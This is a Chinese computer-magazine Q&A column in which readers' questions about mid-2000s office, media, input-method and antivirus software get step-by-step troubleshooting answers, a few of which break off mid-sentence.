答：Excel 中专门提供了中文大写数字的格式。我们只需把表格中希望显示为中文大写数字区域的格式设置为这种格式即可。设置中文大写数字格式的方法是：首先选择要设置的单元格区域，然后在选择区域上单击鼠标右键，在弹出的快捷菜单中选择“设置单元格格式”，然后选择“单元格格式”窗口中“数字”## 大片区域能快速输入同一内容

问：我需要在WPS Office 2003的ET电子表格一大片区域中输入同样的内容，最近因工作量增大，感觉一个一个地复制效率很低。请问有什么简单快速的方法一下子完成吗？（河南 伊健）

答：有办法实现，而且针对于数据、文字和公式的反复应用都是有效的。具体方法是：先选中这片需要重复输入的区域，然后在编辑栏中输入数据、文字、公式等内容，按Ctrl+Enter键确认，这片区域便输入了同一值。

## 自制特殊符号也能添加到系统中

问：WPS Office 2003提供了非常丰富的特殊符号，但因为专业原因，总有一些自己需要的特殊符号不能在库里找到。请问，如何在WPS Office 2003中添加自己制作的特殊符号？（山东 刘梅梅）

答：首先在WPS Office 2003文字处理软件的工具栏空白区域中右键单击，在弹出的快捷菜单中选择“工具”，然后选中“图文符号库”之后，我们看到左边区域中已经打开了“图文符号库”的相关操作，在这里面我们可以查找适合自己的各式符号，如果没有我们需要的符号，我们可以添加自己的序号，添加符号的操作很简单，只要在文本编辑区中输入自己想要插入的文档或打开自己制作好的公式、符号，将其添加到左边的“图文符号库”中你认为合适的位置即可。需要注意的是，在具体操作时一定要将需要添加的文字或符号全部选中，然后按住鼠标左键不放将其拖动到“图文符号库”的符号区。

## 字幕乱码不要慌

问：我有个影片是中英文双字幕，用Media Player Classic播放影片时，Vobsub播放英文字幕正常，中文字幕却只显示一个小方块。请问该如何解决？（黑咖啡）

答：双击Vobsub任务栏图标，在MAIN的字体设置中将字体改为GB2312即可。

## Office 安装问题巧解决

问：为什么我安装Office时总是提示“The Windows Installer Service Could Not Be Accessed”？（海口晃）

答：进入“控制面板→管理工具→服务”，在“服务”设置窗口中找到Windows Installer项，双击打开设置选项，“服务类型”设置为“自动”，“服务状态”下，点击“启动”，启动Windows Installer服务。如果还是出现问题，则可能是Windows Installer文件已损坏或丢失，重新下载安装即可，下载地址：http://download.microsoft.com/download/9/e/1/9e14751c-f897-4bbd-af7a-890d9a0f5430/WindowsInstaller-KB884016-v2-x86.exe。

## 解决Word中不能输入的问题

问：我在编辑Word文档时，每修改一处，后面文字就会消失，怎么回事？（深圳 小强）

答：请按一下键盘上的Insert键（Insert键有插入或替换模式）。如果还是这样，请更换另一种输入法。

## 巧用SFV文件验证文件信息

问：SFV格式的文件怎么样打开，有什么作用？（老弥）

答：SFV是校验用的文件，一般用它来校验文件是否完整，可以使用FlashSFV（下载地址：http://www.onlinedown.net/soft/29164.htm）打开SFV文件校验你下载的文件是否完整。

## 清理Office工具栏上的多余工具条

问：怎样去掉强行插入Office的工具栏，如“金山快译”、“东方快车”等。我在Office的工具栏设置取消了，下次启动又会出现，怎么解决？（曾琨）

答：“金山快译”有一个“插件管理器”，运行后，将金山快译的“Office插件”的勾选去除即可。在“东方快车”的高级设置里，取消它的“嵌入Word”选项的功能即可。

## 关闭恼人的realsched.exe进程

问：怎样去掉Real自动加载的realsched.exe进程项？我已经禁止了，下次开机还会出现，而且不管是RealOne还是RealPlayer10都是这样，我该怎么办？（大当）

答：进入系统盘找到C：\Program Files\Common Files\Real\Update_OB\realsched.exe，将realsched.exe文件重命名即可。如果想删除这个进程，先在“Windows任务管理器”里关闭了realsched.exe，就可删除了。

## 越优化越慢的解决方案

问：大家都说“Windows优化大师”可以优化系统，但我使用后，关机的速度变得很慢，怎么越优化越慢？（北京 香水）

答：打开“Windows优化大师”，点击“磁盘缓存优化”，去掉“Windows XP关机时自动清理页面文件”的勾选即可。

## 解决IDBSvr.exe错误问题

问：每次我关闭ACDSee时，总提示“IDBSvr.exe产生了错误，会被Windows关闭。您需要重新启动程序。正在创建错误日志”这是什么原因？（大连 艾炎）

答：这是ACDSee 5.0的一个BUG。需要先在“Windows任务管理器”中结束ldbsvr.exe进程，复制C：\Documents and Settings\user\Application Data\ACD Systems\ImageDB\imagedb.ddf至C：\Program Files\ACD Systems\ACDSee\5.0，然后再次启动ACDSee，选择“工具→选项”，更改“数据库”连接位置至C：\Program Files\ACD Systems\ACDSee\5.0\imageDB.ddf，重启ACDSee即可。

## 让智能五笔5.5版能够正常启动

问：我的系统是Windows 2000，安装智能五笔5.5版后不能正常启动，怎样办啊？（郑州 郭艳）

答：这是智能五笔5.5版的一个BUG，不能设置成系统默认的输入法。解决方法很简单，用启动盘进入DOS，然后进入到Windows 2000的系统目录（C：\Winnt\System32\）下，删除这个目录下的chenhu4.ime文件，然后重新启动Windows 2000，将系统默认输入法设置成英文输入法或其他输入法就可以了。如果是双系统，还可以进入另外一个系统，删除C：\Winnt\System32\chenhu4.ime文件即可解决。

## 让播放器不再自动复制CD

问：我用Windows Media Player播放CD，每次插入CD后总是出现一个复制CD的进度条，我只想听CD并不想复制。请问，如何才能去除令人讨厌的复制过程，直接听CD？

答：Windows Media Player播放器有复制CD的功能，它可以允许你在插入CD时进行自动复制。你所说的那种情况可能是因为你的播放器选择了自动复制CD的功能。你只需按照下面的方法取消对该项功能的选择即可。方法是：选择系统菜单命令“选项→复制音乐”，然后将弹出窗口下部分组框中的“插入CD时进行复制”复选框中的对勾去掉，按“确定”按钮即可。

## WPS Office 2003文字竖排问题

问：如何在WPS Office 2003中进行文字竖排？

答：如果要实现整个版面的竖排，首先需要将计划竖排的文字输入到文本编辑区，然后直接选择菜单栏中的“文件→页面设置”中的“版面”，我们可以看到右上角有“版式选择”，在它的下面就是我们需要的竖排功能，我们可以对其进行相应的设置。如果是要实现文本框中文字的竖排，可以在选择文本框后，通过右键菜单的“属性”命令，设置其中的“文字版式”为“右竖排”或“左竖排”即可。

## 让文档以图片的形式进驻新文件中

问：有时出于某种需要，我不希望自己的Word文档被他人修改，但该文档又必须被他人所浏览，同文档中其他一些内容可以允许被修改。这时该怎么办？

答：文档保护功能比较麻烦，我们可以尝试使用图片格式的文档。方法如下：当文档编辑完毕后，选取全文进行复制，然后新建一个Word文档，在新文件中执行“编辑”菜单上的“选择性粘贴”命令，在弹出的“选择性粘贴”对话框中选择“图片”，然后单击“确定”按钮。这样，整个文档就被保存成为图片格式而进驻到另一个文档中了。在文档中图片之外的其他地方输入文字，这些文字是可以被修改的。

## 一次换掉看不到的特殊符号

问：有时从Web页上复制文章内容，在Word窗口中粘贴后，文档中会出现很多空行，既不便于阅读，也不便于排版、打印。如果用删除键一行一行地删除，既费时又费力。请问，有什么方便快捷的办法实现文档的规整吗？

答：我们可以使用Word“编辑”菜单中的“替换”命令来完成这一操作。只不过这种替换与一般的替换操作相比稍有特殊罢了。单击“编辑→替换→查找和替换→高级”，在“查找内容”框中输入2个“特殊字符”中的“段落标记”，在“替换为”输入框中，输入1个“特殊字符”中的“段落标记”，在“搜索范围”列表框中选择“全部”。最后单击“全部替换”按钮，空行便被全部删除了。

## 用户建立的Access表也能隐藏起来

问：有时出于安全考虑，我不希望Microsoft Access表出现在数据库窗口中。请问，有没有什么办法把它隐藏起来？

答：以下就是隐藏这些表的简单方法。要想隐藏表，只需将要隐藏的表用“usys”前缀重命名。这样做可以把该表转换成一个系统对象，而数据库窗口不能查看系统对象。如果需要查看或访问该表，选择在数据库窗口中显示系统对象。操作方法如下：执行“工具”菜单中的“选项”命令，选中“视图”选项卡，选中“显示”一栏下的“系统对象”复选框，并按下“确定”按钮，就可以重新显示这个表了。小提示该方法同样适用于窗体、报表等数据库对象。

## “#NUM！”错误的原因和解决方法

问：我在用Excel中引用公式计算的时候，有时会出现“#NUM！”错误。请帮忙解决。

答：通常有两种原因可能会导致这一错误。

- 原因1：给公式或函数输入的数值超出其可以接受的值域。例如“B6=ACOS(A9)”，而A9的值小于“-1”或大于“1”时，就会出现“#NUM！”错误。
  - 解决方法：应确保输入的数值在公式或函数的可接受范围内，并保证函数使用的参数类型正确。
- 原因2：计算产生的数值太大或太小，超出了Excel可以表示的范围，如：Excel 97可以表示的数值在-1×10307与1×10307之间，若超出了上述范围就会出现“#NUM！”错误。
  - 解决方法：修改计算公式，使产生的结果

## 巧抓视频图片

问：我用RealOne播放一部电影时，里面有个画面相当华丽，我想把它捕捉下来存到我的电脑上，可是用系统的Print Screen键抓下来的图，只要保存就变成全黑的，用了很多抓图的工具，比如金山、豪杰的抓图功能也不成，我该怎么办？（SUN）

答：方法一，右击桌面空白处，选择“属性→设置→高级→疑难解答”，把“硬件加速”的滑块拉至“无”，然后重新用播放器打开播放就可以抓图了（不过这个办法对最近流行的HDTV的视频文件不行，选到“无”就放不了）。方法二，用播放器先播放任意媒体文件，然后用其他播放器播放需要抓图的视频文件，再使用Print Screen键抓图即可。

## 解决“豪杰大眼睛”关联问题

问：我在“豪杰大眼睛”里想查找一张JPG格式的图片，并进行放大预览。可是在“豪杰大眼睛”里查找时，却打开了“Windows搜索”界面，在搜索里找到所需文件后，双击文件，并没有进入大眼睛进行预览，而是以网页的形式打开此文件，怎么样才能实现我想要的功能（SUN）

答：这是因为JPG图片格式的打开方式没有关联到“豪杰大眼睛”，操作系统默认打开方式是关联到IE浏览器查看的。解决方法：运行豪杰大眼睛，点击“类型”，在弹出的对话框中，找到JPG，将其勾选，再点击“注册已选择类型”，并“确定”即可。

## 让GIF能够顺利地打印出来

问：我想把一些电子书的CHM完整地打印出来，可试了一下，GIF图片总也出不来，图片的位置全是空白的，就是没有图片。怎么样把它们连图带字一点不乱地打印出来？（上海 小蚊子）

答：打开IE，选择菜单中的“工具→Internet选项”，点击“高级”标签，勾选“打印”项下的“打印背景颜色和图像”项即可。

## 解决不能转换WMA格式的问题

问：为了节省硬盘空间，想把MP3转为WMA，因此安装了豪杰音频通2.5版，但我在使用时软件提示找不到WMA编码，并要求安装Windows Media Player 7.0以上版本，可Windows XP自带的就是Windows Media Player 7.0以上的版本，而且我升级到了Windows Media Player 9.0版后还是不成，这是什么原因呢？（北京 李玉）

答：先卸载掉音频通2.5，然后下载豪杰音频通2.0，安装后再卸载它，最后重装音频通2.5即可。或者直接安装Windows Media Encoder 9.0（下载地址：http://download.microsoft.com/download/8/1/f/81f9402f-efdd-439d-b2a4-089563199d47/WMEncoder.exe）。

## 修复Kaspersky的右键菜单

问：以前装Kaspersky（卡巴斯基）后，右击文件夹就会有“kaspersky Anti-Virus 扫描程序”项，现在却没有了。请问怎么才能添加呢？我不想重新装一次了。（北京 李岩）

答：点击“开始→运行”，在“运行”栏中输入“regsvr32 x：\Kaspersky\shellex.dll”（不含引号，其中x为Kaspersky所在盘符），就可恢复。

## 修复无法使用的Excel文件

问：有一个XLS文件，用Excel打开时提示“该文件是只读的，或所在位置是只读的，或文件服务器无响应”，不能打开，请问如何解决？（陕西 小兰）

答：你的文件可能已经坏了，可以试试用ExcelFIX来修复，它可以帮助修复由于各种原因无法正常打开的Excel文档。软件下载地址：http://www.skycn.com/soft/16547.html。

## 浏览QuickTime制作的MP4格式

问：我是个追新之人，MP4凭借其优于MP3的压缩技术和好于MP3的音质，已经成为我爱“机”的常客。近来用BT拖了近1GB的MP4影音文件下来准备好好欣赏，但是用MyMPC播放却怎么也播放不了（之前没有出现过类似情况），请问如何解决呢？（独孤九剑）

答：起初怀疑为解码器损坏，后来重新安装MyMPC同样不行。根据出错提示，使用MyMPC中的G.Spot分析该文件，得知该文件是采用Apple QuickTime Pro制作的MP4，上网询问高手得知，这种MP4和标准的MP4有所不同，并且被告之只能直接用QuickTime Player才能播放。难道MyMPC就真的拿它没有办法了么？后经过试验发现，可以强行让MyMPC以QuickTime方式渲染这个MP4就可成功播放。方法很简单，只要打开“暴风影音综合设置程序”中的“设置解码器切换”项，将MP4渲染方式改为“QuickTime”即可。当然，在看完此类MP4文件后，别忘记恢复MP4默认的DirectShow渲染，因为QuickTime方式只支持QuickTime编码器生成的MP4，而不是其他绝大多数常规MP4，不然到时候可能真的得不偿失了。

## 让RealOne保存的CD音乐兼容其他播放器

问：用RealOne播放器播放CD时，当插入一张CD后系统提示保存CD音乐，我把自己收藏的一些CD用这种方法保存在硬盘上，但用其他播放器不能播放。请问，如何才能将RealOne保存下来的CD音乐让其他播放器也能播放？（安徽 江阳）

答：RealOne播放器保存CD时默认使用的是它自己的专用格式——RealAudio 8 with ATRAC3格式，如果你用这种格式保存了CD音乐，那么用别的播放器就不一定能播放了。可以通过改变RealOne播放器保存CD的默认格式设置来解决问题。具体方法是：选择RealOne播放器菜单“工具→参数设置”启动“参数设置”窗口，选择窗口左边“类别”项目为CD，然后在右侧的窗口中设置保存CD到我的媒体库的格式为“MP3音频”，这样一来，以后保存CD时就以常用的MP3格式保存了，别的播放器一般也能支持播放了。

## 安装转换器后才可打开WPS文档

问：我的Office 2000为何不能打开WPS 2000制作的演示文档？（河南 安飞宇）

答：那是因为你没有安装文档转换器，安装之后就可以打开了。Office 2000中附带了WPS97/WPS2000转换器，它可以帮助将WPS97/WPS2000文件导入Word 2000。在将WPS97/WPS2000文件导入Word时，转换器将保留它的大部分格式信息和嵌入对象。但在安装Office 2000时不会自动安装WPS97/WPS2000转换器。你可以到Office 2000 CD1的“\PFiles\Common\MSShared\TextConv”文件夹中，双击Wps2word.exe这个自解压文件，就可以自动为Word 2000安装WPS97/WPS2000转换器。这个转换器也可以用于Office 97。当重新启动Word并单击“文件”菜单中的“打开”命令时，就会在“文件类型”列表框中找到“WPS DOS file 导入”和“WPS file (*.wps)”选项。该转换器可打开WPS for DOS, WPS97和WPS2000的所有文档。

## 实现对一系列可自动循环幻灯片的控制

问：做了许多PowerPoint幻灯片，需要在没有安装PowerPoint的客户机上依次演示，而且其中的某些片段或全部需要自动循环演示。请问该如何控制？（上海 华东华）

答：可以先创建播放列表，然后用PowerPoint光盘中提供的Ppview32.exe播放器来播放。播放列表创建方法如下：打开“记事本”或在任何字处理程序中打开新的空文档，在文档中，输入要放映的演示文稿的文件名（包括文件扩展名）。注意将每个文件名输入到不同的行中。如果演示文稿位于不同的文件夹中，请输入文件位置的路径。例如：“C：\My Documents\Pres1.ppt”。最后将文档保存为扩展名为lst的文本文件。如果所有演示文稿都位于同一文件夹中；那么请将文档保存到该文件夹中。反之，可将文档保存到所需的任何文件夹中。注意：如果演示文稿文件名中包含空格，则文件名会包含引号，例如：“Sales Presentation.ppt”。关于播放循环的问题，可以在播放列表中通过使用命令行选项控制演示文稿的运行。例如，要反复运行PRES1幻灯片放映并直到按下Esc键，然后又反复运行PRES2幻灯片放映直到按下Esc键，可使用如下格式：//Pres1.ppt //Pres2.ppt又如，要将每个演示文稿运行一次，然后在最后一个演示文稿结束后重新开始，可使用如下格式：//“Pres1.ppt”“Pres2.ppt”“Pres3.ppt”

## 让媒体文件接受RealOne Player的统治

问：安装RealOne Player后，我又安装过一些别的播放器，有些原来由RealOne Player直接关联播放的多媒体格式被别的媒体播放器关联了，但我只希望原来的那些文件依然由RealOne Player来打开。总是频繁重新设置关联觉得有些麻烦，请问有什么自动化一些的办法吗？（四川 老锅）

答：在RealOne Player播放窗口主界面菜单中选择“工具→参数设置”，然后在设置窗口中选择“内容→媒体类型”，最后在右侧窗口下端选上“当RealOne Player不在运行时定期检查我的系统来维持这些选项设置”复选框即可。经过这样的设置后RealOne Player就可以定期检查它的原有关联设置，并及时更正。

## 不能用右键控制幻灯片播放了

问：最近在用PowerPoint演示幻灯片时，点击右键没有反应，快捷菜单也不出现了。这是何故？

答：可以通过菜单命令“工具→选项”进入“选项”设置窗口，然后选择其中的“视图”选项卡，将“幻灯片放映”分组框中的“右键单击快捷菜单”复选框选中，按“确定”即可。

## PowerPoint幻灯片如何防修改

问：用PowerPoint做好的演示文档用什么办法可以不让别人重新编辑？（华东交大 宋京伟）

答：Microsoft Office XP中的PowerPoint 2002具有对制作好的演示文稿进行打开权限加密保护和修改权限密码保护双重保护措施。这两项加密都是放置在“工具”菜单下的“选项”设置窗口中。设置加密方法是：点击“文档安全”选项卡，出现的两个密码设置框分别对应文件打开权限和文档修改权限。在此我们还可以通过点击“高级”按钮，设置加密算法和密匙的长度，这样可以大大提高演示文档的安全系数。

## 用Access数据库管理多媒体信息

问：公司业务中涉及到许多客户方面的图片和录音资料，如何实现把客户的图片和声音信息用Access管理起来？（北京 凤都儿）

答：Access中的“OLE对象”字段可以用来存储文档、图片、声音的数据以及在别的程序中创建的其他类型的二进制数据，并且可以链接或嵌入到Microsoft Access表的字段中。下面以创建一个存储声音的字段为例说明。首先在“设计视图”中打开表，选中需要输入的行，在“字段名称”列中键入字段名称如“声音”，在“数据类型”列中，单击箭头并选择“OLE对象”即可。然后就可以用“插入→对象”命令选择插入声音信息了。创建其他类型的多媒体信息与此类似。

## 不装PowerPoint如何播放幻灯片

问：用PowerPoint制作的产品演示幻灯片如何在没有安装PowerPoint的客户电脑上演示？(北京 寒露)

答：虽然目前其他演示软件，如金山的演示软件也能支持PowerPoint的幻灯片格式，但为了防止兼容性问题的出现，你最好还是把PowerPoint光盘提供的“PowerPoint播放器”——Ppview32.exe并分发给用户，用此来演示PowerPoint幻灯片。

“PowerPoint播放器”可以免费分发，而不需要额外的授权，它和PowerPoint一起提供，对于PowerPoint 2000，它位于CD-ROM的“PFiles\MSOffice\Office\Xlators”文件夹中。如果安装PowerPoint时安装了播放器，则播放器会放在硬盘的“Program Files\Microsoft Office\Office\Xlators”文件夹内。

分发演示文稿时，可以使用“打包”向导将播放器和演示文稿放在同一张软盘或光盘内，然后将播放器和演示文稿一起解压缩，并在另一台计算机上放映幻灯片。也可以创建一份播放列表和播放器一起使用，以便依次运行多个演示文稿。

## 在Access窗体中创建运行程序按钮

问：我想从Access环境中直接调用打开记事本的功能，请问该怎么做？(陕西 王西平)

答：可以利用“控件向导”在窗体中轻松地创建一个命令按钮。以你提到的创建一个可以打开记事本程序的按钮为例。具体步骤如下：

- (1) 在“设计视图”中打开窗体，按下“工具箱”工具栏中的“控件向导”按钮，并单击“命令按钮”工具，然后在窗体上用鼠标左键按下并拖动以确定放置命令按钮的位置及按钮大小。
- (2) 松开鼠标后，屏幕上会弹出“命令按钮向导”对话框，在第一个向导对话框内，选中“类型”框中的“应用程序”，然后在“操作”框内选中要创建的按钮功能，在这里我们选中“运行记事本”。
- (3) 按“下一步”按钮，进入第二个对话框。在这里选择按钮上显示文字还是图片。单击“下一步”按钮，在最后的对话框中指定按钮的名称，完成后单击“完成”按钮，这样运行记事本程序的按钮就添加到窗体中了。

## 用WPS读出的DOC文件为何走了样

问：为何我在用WPS Office 2003读某个DOC格式文件时，显示的内容与原文件有所不同，其中有个别图片也无法显示出来？(山东 江宗三)

答：由于快速存盘的原因，WPS读取的DOC格式文件会较原文件略有不同，甚至个别图片也无法读出。

解决办法是，只需在Word主菜单“工具→选项”的“保存”选项卡中将“快速保存”一项取消，另存一次即可。

## 让擦线工具连续擦除线段

问：我在用金山文字制表时，擦线工具一次只能擦一段线。我希望连续擦除一系列线段，该怎么做？(广州 邵燕)

答：先选择表格，通过右键菜单命令把表格的排版位置更改为“在当前位置”，这样就可以重复使用橡皮擦，连续擦除线段了。

## 音频压缩和转换中的一些问题

问：我刚买了MP3播放器。请问有没有压缩率比MP3更高，效果也不错的压缩方式及播放器？什么工具可以把RM格式音频文件转换为MP3或WMA？另外如何把CD中的音乐提取出来的存为MP3文件？听说有一种VQF格式的文件不错，不知效果如何？(大连 吕兵)

答：VQF和WMA格式的压缩率都比较高，不过VQF压缩软件的压缩速度太慢，而且绝大多数的MP3播放器不支持播放这种格式，Winamp也要加插件才能播放，目前已经逐渐淡出人们的视野；WMA是微软的媒体文件格式，Windows Media Player 7以上版本能播放并可抓CD音轨存为WMA格式；转换工具可选用免费的dBpowerAMP Music Converter(下载地址:http://www.dbpoweramp.com/bin/dMC-r11.exe)，并且通过安装编码器(http://www.dbpoweramp.com/codec-central.htm)，支持几乎所有音频格式之间的转换。

## 如何打开扩展名为DAT的文件

问：从网上下载的扩展名为DAT的文件用什么软件来打开？(北京 何小超)

答：DAT文件有可能是VCD格式文件，用Windows Media Player或其他一些VCD播放软件就可以打开；也可能是某些程序的数据文件。数据文件有可能是ASCII编码的，那么可以用任何文本编辑软件比如常用的“记事本”打开，但也可能是各种应用软件的自有格式。如果是某种应用软件自定义的格式，那么就只能在使用这个软件的过程中由该软件自动调用了，用户不能直接用常用软件来打开它。

## 解决ET中输入以0打头字串的难题

问：在WPS Office 2003的电子表格组件ET中，如果在单元格中输入0开头的数字，比如输入电话区号075600，前面的0都会被系统自动删除。请问，这个问题如何解决？(江西 胡月)

答：如果需要把数字作为字符输入，得先输入半角单引号。例如，直接输入0756的结果为756，0将会被程序自动删除。如果在输入数字前先输入半角单引号，再输入0756，结果就会变为我们想要的0756。

## 为何不能选择项目符号或编号字符

问：为何我想将一个幻灯片的文字符号前的符号重新设置一下，可是总是不能选中？(山东 何小阳)

答：由PowerPoint添加的自动编号和项目符号是不能直接选择编辑的。要更改项目符号和编号的外观或字符，请选择要修改的项目符号或编号之后的文本或选择包含要修改的项目符号或编号的占位符，接着单击“格式”菜单上的“项目符号和编号”，然后在适当的选项卡上进行更改。

## 自创HTML文档为何不能用本程序打开

问：我在用PowerPoint打开一个包含图片信息的HTML文档时，打开它的程序却是Word。这是为什么？(山东 黄永)

答：在PowerPoint“文件”菜单的“打开”对话框中，如果选定超文本标记语言(HTML)文件(Web页)并单击了“打开”，或双击了该文件，则该文件会在创建它的程序中打开。例如，如果试图在Microsoft PowerPoint中打开由Word创建的HTML格式的文件，则该文件会在Word中打开。

要在PowerPoint中打开由其他Microsoft Office程序创建的HTML文件，可在“打开”对话框中使用鼠标右键单击该文件，然后单击快捷菜单中的“在Microsoft PowerPoint中打开”即可。

需要一提的是，要获得最佳显示效果，如果要编辑该HTML文件，还是应该使用创建该HTML文件的程序。例如，最好使用PowerPoint编辑在PowerPoint中创建的HTML文件。

## Word文档显示混乱的解决办法

问：我经常会遇到Word文档打开后文字编码混乱的情况。请问遇到这种情况该如何解决？(浙江 李誉)

答：如果Word文档受损，文档的内容显示混乱，那么你可以将最后一个段落标记之外的所有内容复制到一个新文档中，或许能够解决乱码问题。操作步骤如下：

- (1) 选定最后一个段落标记之外的所有内容，方法是：按下Ctrl + Home组合键，然后按下Ctrl + Shift + End组合键，最后按下Shift + ←组合键。
- (2) 在“常用”工具栏上，依次单击“复制”、“新建”和“粘贴”按钮。

实际上在Word文档中，系统用最后一个段落标记关联各种格式设置信息，特别是节与样式的格式设置。如果将最后一个段落标记之外的所有内容复制到新文档，就有可能将损坏的内容留在原始文档中，而在新文档中，重新应用所有丢失的节或样式的格式设置。

## 解决删除输入法后惹来的麻烦

内蒙古读者李平平问：近日我刚刚装上紫光拼音输入法3.0，觉得好用，于是就把系统自带的智能ABC等输入法删除了，现在只剩下紫光拼音输入法了。但是还没有用多久，就发现了问题：只要打开一个新的程序，紫光拼音的提示面板就会出现。比如开了一个金山影霸，紫光拼音就会自动弹出来，关掉金山影霸后，紫光拼音的提示面板也跟着退出了。新开任何一个程序都是这个样子，很烦人。因为大多数的时候是希望在需要的时候由手动的方式把它调出来用，下载、浏览或看碟等过程是不需要输入的，当然也不需要它出来凑热闹。请问，如何才能让它在我不需要的时候不要跳出来烦我？

答：这是因为你删除了其他输入法后，系统将紫光拼音输入法设置成了默认的输入法。就拿Windows 2000为例来说吧，系统默认的输入法键盘布局/输入法为“中文(简体)-美式键盘”，在这种状态下开启任何程序都不会跳出输入法工具条的。你可以用如下方法恢复这种设置：

在系统托盘的输入法图标上单击鼠标右键，选择“属性”，在弹出的“区域选项”窗口中选择“输入法区域设置”选项卡，如果上方的窗口中有“中文(简体)-美式键盘”，选择它并按动“设为默认值”即可。如果窗口中没有这个项，选择“添加”按钮添加一下，并按前述设置为默认值即可。

## 键盘上的Caps Lock为何无法关掉

江苏读者韶亚平问：键盘上的Caps Lock在按下之后灯亮，也能输入大写字母，但再按Caps Lock键发现指示灯没有反应，还为亮的状态。无意中按动了Shift键，发现键盘上的Caps Lock指示灯熄灭了。请问这是为什么？ 如何恢复原来的锁定功能？我用的操作系统是Windows 2000。

答：这可能是你无意中将关闭Caps Lock的开关切换为Shift键了。可以按如下步骤恢复：

在系统托盘的输入法图标上单击鼠标右键，选择“属性”，在弹出的“区域选项”窗口中选择“输入法区域设置”选项卡，选择窗口中部的“要关闭 Caps Lock”分组框中的单选框“按CAPS LOCK键”，确定即可。

## 标题母版文字为何发生了变化

新疆读者赵金山问：为何在PowerPoint幻灯片母版中修改了文本属性，标题幻灯片的文本也变了？ 如果恢复标题幻灯片的文本属性？

答：标题母版从幻灯片母版中继承所有的文本属性。如果在幻灯片母版中修改了文本的字体、字号或样式，这些变化都会反映到标题幻灯片中。要在标题母版中使用不同的文本属性，可以在改完幻灯片母版中的文本属性之后再修改标题母版中的文本属性。这样，所作的修改就只停留在标题母版中，而不会体现到幻灯片母版中。

## 无法搜索到文件夹中的已有文件

甘肃读者怀石山问：我的一个PowerPoint幻灯片文件明明位于“打开”对话框所显示的驱动器下的某文件夹中，却为何在“打开”文件的对话窗口中无法看到？

答：虽然你现在使用的搜索条件可能包含

## 软键盘背后隐藏了许多特殊符号

北京读者老王问：我原来一直在用Windows系统自带的全拼输入法输入汉字，最近朋友介绍我使用紫光拼音3.0，这是一款不错的软件，但在使用时我总是找不到一些比较特殊的符号的录入方法，点击输入条上的小键盘虽然可以输入一些常用符号，但不是所有特殊符号都包括在其中。请问，小键盘中没有的另外一些特殊符号该如何输入？

答：其实，你点击小键盘图标看到的只是最常用的符号，而在小键盘图标后面还隐藏着许多符号。这些符号的调用方法是：先在小键盘图标上用鼠标右键单击，这时你可以看到一个包含有各种符号类别的快捷菜单，从这个菜单中选择你需要的符号类别，这时如果再用鼠标左键单击小键盘图标，打开的符号键盘就变成了你要选择的符号所在的键盘了，从中选择你需要的特殊符号即可。

## 金山毒霸无法清除病毒该如何处理

江西读者贺云飞问：我用金山毒霸查出电脑中有病毒，但无法清除。请问我该如何处理？

答：在你的系统感染病毒时，具备内存杀毒功能的金山毒霸2003和金山毒霸6在多数情况下，可以自动清除病毒，但仍有部分病毒必须在安全模式甚至纯DOS模式下才能清除。
先重新开机，按F8键，Windows 2000/XP用户可以直接选择安全模式，Windows 9x用户可选择3进入安全模式。同时按住Shift不放，一直等到系统启动到桌面，硬盘灯不闪烁时松开Shift键，这样做可以让系统加载的进程最少。然后运行金山毒霸查杀病毒。
如果这样做仍有病毒不能彻底清除，可以参考以下方法在DOS下杀毒。
先创建应急启动软盘或用Windows 98启动盘启动电脑；转到金山毒霸的安装盘，例如，金山毒霸安装在C盘，则键入C:后回车；接着进入金山毒霸的安装目录(金山毒霸2003默认为C:\KAV2003，金山毒霸6的安装目录为C:\KAV6)，方法是键入CD KAV6或CD KAV2003后回车；最后执行KAVDX，发现病毒后，按A就可以自动完成清除病毒任务。

## ACDSee 6.0 无法浏览常见格式图片

福建读者王汉兴问：以前我在自己电脑的Windows XP中安装过ACDSee 5.0版本，最近又安装了ACDSee 6.0，但出现了如下问题：当安装完成ACDSee 6.0并启动时发现无法浏览JPG、GIF等一些最常见的图片格式，即使在“文件”菜单中的“工具”中打开“文件关联”重新进行设置，ACDSee 6.0在浏览这些格式的图片时也会给出诸如“插件未载入”的提示。此时将ACDSee 5.0、6.0全部卸载后再重装ACDSee 6.0也会出现这种现象。请问该如何解决？

答：解决这个问题的方法是：
首先全部卸载ACDSee 5.0和6.0版本软件，删除硬盘上所有ACDSee文件夹(包括Program Files\ACD Systems、Program Files\Common Files\ACD Systems、Documents and Settings\All Users\Application Data\ACD Systems和Documents and Settings\***\Application Data\ACD Systems，其中***为你的登录系统用户名)。
然后在“开始→运行”中键入regedit并按回车键打开注册表编辑器，在里面搜索ACD Systems这个字符串，将找到的键值全部删除；再搜索ACDSee字符串并将找到的键值全部删除。
最后依次进入“我的电脑→工具→文件夹选项”，单击“文件类型”标签，将JPG、GIF等图片格式的关联删除。
完成以上操作后，重装ACDSee 6.0即可。

## 解决 ACDSee 7.0 安装前后文件关联问题

陕西读者杨云禄问：我在安装ACDSee 7.0后，以前在文件管理器中通过双击就能调用相应程序打开的一些图片文档，现在的打开方式都指向ACDSee 7.0了，可是我不希望这样。现在我已经错误地建立了关联，该怎么办？以后如果再安装该软件，如何避免这种情况的发生？

答：如果你不小心已经关联了不希望改变关联的项目，想要再改回来，现在为时不晚。可以用下面的方法恢复其关联：首先选取一个准备使用原始程序打开的图片文件，按住键盘上的Shift不放开的同时，在该图片上点击右键，在右键菜单上会出现“打开方式”，选择后点击“选择程序”并在系统提供的程序列表里选择打开文件所使用的程序，同时在“始终使用选择的程序打开这种文件”前打上钩，这样以后再打开这一扩展名的文件时就会使用你所钟爱的那个程序了。
这里需要注意的是，在文件的关联方式恢复后再次打开ACDSee 7.0时会发现多了一个File Associations Changed的对话框，此时要注意把文件类型前边的钩都划掉，然后再点击OK，否则就前功尽弃了。
如果你希望今后安装时候杜绝此类问题，可以在安装ACDSee 7.0时多加注意，防患于未然：为了在安装后保持原文件关联信息不被更改，需要在安装时不选择你不希望改变关联的选项，方法是在安装时选择Custom方式安装，在打开的Custom Setup界面中对关联的项目进行选择，对于那些不想关联的文件类型可以不予安装。

## WinISO 为何不支持大一点的文件

北京读者谢小云问：从以前的傻博士问答中获知，WinISO是一款不错的建立虚拟映像文件的软件，但我下载安装后发现最多只能操作100MB容量的文件，更谈不上创建一张光盘的映像文件了。请问，这是怎么回事？

